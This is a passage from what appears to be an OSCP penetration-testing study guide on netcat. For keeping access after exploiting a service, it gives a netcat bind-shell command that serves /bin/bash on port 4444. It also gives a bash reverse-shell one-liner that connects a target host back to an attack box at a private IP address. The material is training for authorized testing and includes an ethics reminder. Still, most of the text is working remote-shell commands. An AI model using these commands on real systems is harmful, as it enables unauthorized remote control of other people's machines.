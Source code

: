 You have exploited a service and want to maintain access:

On the target machine:

```sh
nc -lvnp 4444 -e /bin/bash
```

On your machine:

```sh
nc <target_ip> 4444
```

By mastering these `netcat` commands and understanding how to use them in various scenarios, you can greatly enhance your efficiency and effectiveness during the OSCP exam. Always remember to follow the ethical guidelines and legal boundaries when using these techniques.

#### Reverse shell without Netcat on the target host

One major downside on the shown example is that you need Netcat on that target host which is very often not the case in real world scenario’s. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attack box. Let’s have a look at a few alternative ways to setup a reverse shell.

_**Bash reverse shell**_

With can also use Bash to initiate a reverse shell from the target host to the attack box by using the following command:

> bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Advenced Usage (Relay)

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>
